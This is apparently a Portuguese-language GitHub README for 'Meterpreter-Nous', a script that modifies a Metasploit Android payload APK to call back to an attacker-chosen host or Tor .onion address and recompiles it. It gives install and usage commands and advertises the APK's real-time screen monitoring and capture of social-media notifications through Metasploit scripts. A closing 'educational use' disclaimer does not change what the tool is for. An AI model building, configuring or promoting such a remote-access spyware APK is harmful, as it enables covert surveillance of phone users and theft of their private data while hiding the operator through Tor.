 
---

# Meterpreter-Nous

![Logo](https://raw.githubusercontent.com/mikelkarma/Meterpreter-Nous/refs/heads/main/screenshot.png)


*"Hack the system. Reconfigure. Adapt. Overcome."*

Este script modifica e compila um APK personalizado, permitindo configurar conexões dinâmicas com ou sem o uso de Tor.

---

## [ SYSTEM CORE ]

- Modifica o arquivo `Payload.smali` para definir um novo **host** e **porta**.
- Suporte completo a hosts `.onion` para conexões sigilosas via **Tor**.
- Compilação automatizada do APK modificado.

---

## [ SYSTEM REQUIREMENTS ]

Certifique-se de possuir as ferramentas essenciais:

- [Python 3.x](https://www.python.org/)
- [apktool](https://github.com/iBotPeaches/Apktool)
- [Java](https://www.java.com/)

---

## [ INSTALL & DEPLOY ]

Clone o repositório e navegue até o diretório:

```bash
git clone https://github.com/mikelkarma/Meterpreter-Nous
cd Meterpreter-Nous
sh install.sh # Debian
```

## [ EXECUTION MODE ]

Defina o host e a porta diretamente na CLI:

```bash
python nous.py --host <IP ou domínio> --porta <porta> --tor <true/false>
```

Exemplos de execução:

**1. Configuração de um host sem Tor:**

```bash
python nous.py --host 192.168.0.1 --porta 8080 --tor false
```

**2. Configuração de um host .onion com Tor:**

```bash
python nous.py --host exemplo.onion --porta 8080 --tor true
```

---

## [ MOD APK CAPABILITIES ]

Este APK possui capacidades avançadas, incluindo:

- Monitoramento em tempo real da tela do Android.
- Captura de notificações de redes sociais e outros aplicativos.

Os scripts necessários para ativar essas funções no Metasploit estão disponíveis em `msf-scripts`. Copie-os para o seu ambiente Metasploit e execute na sessão desejada:

```bash
meterpreter> run <script>
```

---

> "No system is safe. The only real security is obscurity."

---

## [ DISCLAIMER ]

Este código é disponibilizado apenas para fins educacionais e de pesquisa.

- Não há qualquer garantia de funcionamento ou segurança.
- O uso deste código é de total responsabilidade do usuário.
- Não me responsabilizo por qualquer uso indevido, ilegal ou mal-intencionado deste software.

Se optar por utilizar este código, faça-o de maneira ética e dentro dos limites da lei.

---

